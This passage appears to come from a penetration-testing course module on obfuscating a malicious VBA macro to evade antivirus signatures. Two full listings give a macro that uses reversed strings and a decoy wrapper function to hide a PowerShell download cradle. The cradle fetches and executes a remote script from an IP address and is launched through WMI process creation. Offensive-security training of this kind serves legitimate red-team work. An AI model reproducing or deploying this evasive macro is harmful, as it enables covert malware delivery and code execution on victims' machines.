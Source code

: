 8

(Microsoft, 2018), [https://docs.microsoft.com/en-gb/windows/win32/cimwin32prov/create-method-in-class-win32-process](https://docs.microsoft.com/en-gb/windows/win32/cimwin32prov/create-method-in-class-win32-process) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5147-8)

### 9.8.3. Obfuscating VBA

So far, we have found that the detections on our VBA macro are mainly from signatures since we have string content that is very easy to match, and switching the process creation technique did not change the detection rate.

In this section, we are going to perform some obfuscation[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-1) to hide the content of any text strings from the antivirus scanner. The current VBA macro has three of these: the PowerShell download cradle, the WMI connection string, and the WMI class name.

We will make two attempts at obfuscating the strings. The first will be a relatively simple technique, while the second will be more complex.

VBA contains a function called _StrReverse_[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-2) that, given an input string, returns a string in which the character order is reversed. Our first obfuscation technique is going to rely on reversing all strings to hopefully break the signature detections.

We could reverse our content strings in a number of ways, but in this case we'll use the _Code Beautify_[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5148-3) online resource. Listing 42 shows our updated code after reversing the strings and inserting the _StrReverse_ functions to restore them:

```
Sub Mymacro()
Dim strArg As String
strArg = StrReverse("))'txt.nur/021.911.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")

GetObject(StrReverse(":stmgmniw")).Get(StrReverse("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```

> Listing 42 - Strings in reverse to evade detection

Our code runs properly but we may have replaced one red flag with another. Since _StrReverse_ is notoriously used in malware, we should minimize its use.

To reduce the amount of times the function name appears, we'll create a new function that simply calls _StrReverse_. This will reduce the number of times _StrReverse_ appears in our code. As shown in Listing 43, we have inserted this function and used benign names for the function and argument names:

```
Function bears(cows)
    bears = StrReverse(cows)
End Function

Sub Mymacro()
Dim strArg As String
strArg = bears("))'txt.nur/021.911.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")

GetObject(bears(":stmgmniw")).Get(bears("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```
